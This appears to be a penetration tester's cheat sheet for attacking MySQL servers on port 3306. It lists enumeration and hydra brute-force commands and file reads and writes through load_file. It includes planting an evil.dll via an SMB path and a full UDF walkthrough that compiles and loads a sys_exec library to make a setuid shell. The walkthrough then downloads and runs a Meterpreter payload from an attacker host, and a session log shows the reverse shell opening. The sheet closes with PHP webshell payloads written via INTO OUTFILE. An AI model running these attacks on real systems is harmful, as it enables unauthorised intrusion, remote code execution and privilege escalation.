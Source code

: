 # 3306 - MySQL

| RESOURCES                                                                                                                                                |
| -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE\_SQL\_EXECUTION.html](https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE_SQL_EXECUTION.html) |
| [https://www.w3schools.com/php/php\_mysql\_intro.asp](https://www.w3schools.com/php/php_mysql_intro.asp)                                                 |

## Syntax

{% code overflow="wrap" fullWidth="true" %}
```bash
# Nmap
nmap --script=mysql-enum <target>
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>

mysql -u root -p

# REMOTE
mysql -h <Hostname> -u root -p
mysql -h <Hostname> -u root@localhost

# DUMP INFO
mysqldump -u $USER -p $DB_NAME $DB_TABLE

# Metasploit
msf> use auxiliary/scanner/mysql/mysql_version
msf> use uxiliary/scanner/mysql/mysql_authbypass_hashdump

# Syntax
mysql> show databases;
       show tables;
       select * from users;
mysql> create database $name;
       create table $name;
       create table $name($field $type($nºbytes)); # example Alumnos(id int(2));
       describe $name;
       insert into $table(id, username) values(1, "admin");
       
# COMMENTS
-- -
#

# ENUMERATION
# Show privileges of our user
SHOW Grants;
# Check variables such as hostname, arch and plugin_dir (in case it's not the default path for MySQL installation)
show variables;

# TO CREATE A MYSQL REMOTE CONNECTION
# 1 - Create username with the IP of the victim machine, IDENTIFIED BY '$PASSWORD'
MariaDB [(none)]> create user 'antz'@'10.10.10.10' IDENTIFIED BY 'DontExploitMePls'
# Create a databse
MariaDB [(none)]> Create Database DeleteMeWhenDone;
MariaDB [(none)]> GRANT ALL on DeleteMeWhenDone.* TO 'antz'@'10.10.10.100';
MariaDB [(none)]> FLUSH PRIVILEGES;

MariaDB [DeleteMeWhenDone]> create table test ( OUTPUT TEXT(4096) ) ;
```
{% endcode %}

## **Bruteforce**

```bash
hydra -L users -F -P /usr/share/custom-wordlists/Passwords/rockyou-40.txt $IP mysql
```

## **Privesc**

### **Windows**

{% code overflow="wrap" fullWidth="true" %}
```sql
# Show privileges
show grants;
# Read files
select load_file('C:/users/administrator/desktop/test.txt');
# Write a file
select load_file('C:\\test\\nc.exe') into dumpfile 'C:\\test\\shell.exe';
# Upload a file to the target using SMB server (UNC path)
select load_file('\\\\192.168.10.10\\share\\evil.dll') into dumpfile "C:/Windows/System32/evil.dll";
```
{% endcode %}

### **UDF library exploit**

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.exploit-db.com/exploits/1518 # relevant Exploit Database entry
https://github.com/AgatinoCaruso/lib_mysqludf_sys_mariadb # fork of Github repo mentioned on the previous link
linux_x86/local/46249.py

# If we access MySQL database with root creds, we check privileges
MariaDB [(none)]> show variables;
...                                                                                                                                            
| plugin_dir                                             | /home/dev/plugin/          
...
| hostname                                               | whatever                       
...
| version                                                | 10.3.7-MariaDB  
# If plugin_dir is not on the standard place, we can upload "plugins" there and exploit. We search for MySQL exploits and find:
MySQL User-Defined (Linux) (x86) - 'sys_exec' Local Privilege Escalation                                                                   | linux_x86/local/46249.py
# there is a bunch of shellcode that we do not know, but we can resume steps to this:
select @@plugin_dir
select binary 0xshellcode into dumpfile '@@plugin_dir+udf_filename';
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec';
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
# We found a Github repo talking about this and we clone it
https://github.com/AgatinoCaruso/lib_mysqludf_sys_mariadb
# We see a UDF library that allows us to execute commands:
└─$ cat lib_mysqludf_sys.c
...
my_ulonglong sys_exec(
        UDF_INIT *initid
,       UDF_ARGS *args
,       char *is_null
,       char *error
){
        return system(args->args[0]);
}
...
# Looking at install.sh we need prerequisites for Kali
sudo apt install default-libmysqlclient-dev mariadb-server libmariadbd-dev
# Now that we have the dependencies installed, we need to remove the oldobject file before generating the new one.
└─$ rm lib_mysqludf_sys.so
└─$ sudo make
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/mysql -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
# The -Wall flag enables all of gcc's warning messages and -I includes the directory of header files. The list included in the command found in Listing 60 are common locations for header files for MariaDB. The -shared flag tells gcc this is a shared library and to generate a shared object file. Finally, -o tells gcc where to output the file.

# Recalling the SQL commands from the UDF exploit, to transfer the shared library to the target database server, we will need the file as a hexdump.
└─$ xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex

# The contents of the lib_mysqludf_sys.so.hex file is what we will use for shellcode.
MariaDB [(none)]> set @shell = 0x7f454c460...00000000000000000000;
Query OK, 0 rows affected (0.149 sec)
# We check again the value of plugin_dir variable:
MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir      |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
# Let's attempt to dump the binary shell to a file.
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
Query OK, 1 row affected (0.057 sec)
# create a function
MariaDB [(none)]> create function sys_exec returns int soname 'udf_sys_exec.so';
Query OK, 0 rows affected (0.051 sec)
# running a command that queries for the sys_exec function
MariaDB [(none)]> select * from mysql.func where name='sys_exec';
+----------+-----+-----------------+----------+
| name     | ret | dl              | type     |
+----------+-----+-----------------+----------+
| sys_exec |   2 | udf_sys_exec.so | function |
+----------+-----+-----------------+----------+
# Now we execute again that Meterpreter shell
MariaDB [(none)]> select sys_exec('wget http://192.168.239.169/shell.elf');

+---------------------------------------------------+
| sys_exec('wget http://192.168.239.169/shell.elf') |
+---------------------------------------------------+
|                                                 0 |
+---------------------------------------------------+
1 row in set (0.183 sec)

MariaDB [(none)]> 
MariaDB [(none)]> select sys_exec('chmod +x shell.elf');
+--------------------------------+
| sys_exec('chmod +x shell.elf') |
+--------------------------------+
|                              0 |
+--------------------------------+
MariaDB [(none)]> select sys_exec('./shell.elf');


# We get a connection back on MSF:
[*] Started reverse TCP handler on 192.168.239.169:443 
[*] Sending stage (1017704 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (192.168.239.169:443 -> 10.11.1.250:20941) at 2022-11-10 09:27:23 -0500

meterpreter > shell
Process 5564 created.
Channel 1 created.
whoami
mysql
```
{% endcode %}

[**https://www.exploit-db.com/exploits/1518**](https://www.exploit-db.com/exploits/1518)

Most likely, we **need root** privileges/credentials on MySQL to be able to exploit it and also **mysql is running as root.**

[https://redteamnation.com/mysql-user-defined-functions/](https://redteamnation.com/mysql-user-defined-functions/) → MySQL < 5.X

[https://www.exploit-db.com/exploits/50236](https://www.exploit-db.com/exploits/50236) → works for MySQL 4.X/5.X, it has some errors, good one is udf.py on my Kali

[https://www.exploit-db.com/papers/44139](https://www.exploit-db.com/papers/44139)

[https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)

### Write files (webshell)

We can get RCE if we use MySQL to upload a file with a webshell:

{% code overflow="wrap" fullWidth="true" %}
```sql
select 1,2,"<?php echo shell_exec($_GET['cmd']);?>",4 into OUTFILE 'C:/xampp/htdocs/shell.php'

select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '/var/www/html/shell.php

# SOMETIMES IT IS NECESSARY TO USE HEX NOTATION 
echo -n "<?php phpinfo(); ?>" | xxd -ps
mysql> select 0x.... into outfile "...";
```
{% endcode %}
